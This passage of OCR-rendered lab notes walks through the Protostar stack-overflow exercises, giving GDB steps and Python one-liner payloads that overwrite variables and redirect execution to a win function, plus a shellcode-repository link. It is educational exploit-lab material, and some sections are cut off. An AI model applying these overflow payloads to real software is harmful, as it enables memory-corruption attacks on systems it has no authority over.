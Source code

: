 8. > next 13
          ^this number may be different
          You want to step over the gets function so you can give input

9. On separate terminal:
    `python -c "print('A'*77)"`
                            ^if this doesn't work at end,
                             increase this number
    To see the hex values of this (if all 'a's it should be `0x61`:
    `echo <string> | hexdump -v`

10. Copy the output of step 5 and paste into GDB and press ENTER

11. Next assembly instruction should be:
    	`mov   eax, dword ptr [rbp - 4]`
                               ^look at this
                               this is the location of the variabe
                               variable `modified`

12. pwndbg> hexdump $rbp-4 1
    gef> hexdump $rbp-4 1

   should get something like:
   `+0000 0x7fffffffde6c  61 61 61 61  │aaaaa`
                          ^you have changed the value of modified t0 `aaaa`

13. If you look at the source, `modified = 0;`. You have now changed it to
    a (0x61 in hex)

14. > continue
	```
    Continuing.
    You have changed the ‘modified’ variable
    ```




# stack1: Overwrite Variable to Specific Value
------------------------------------------------------------------------
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
                                  ^may have to play with this number


# stack2: Set Enviromental Variable 
------------------------------------------------------------------------
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
                                 ^may have to play with this number


# stack3: Jump to another function 
------------------------------------------------------------------------

[Simple]: Step-by-Step

1. `objdump -d stack3 | grep "win"`
	Output looks something like this:
	  0000000000400577 <win>:


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Detailed]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step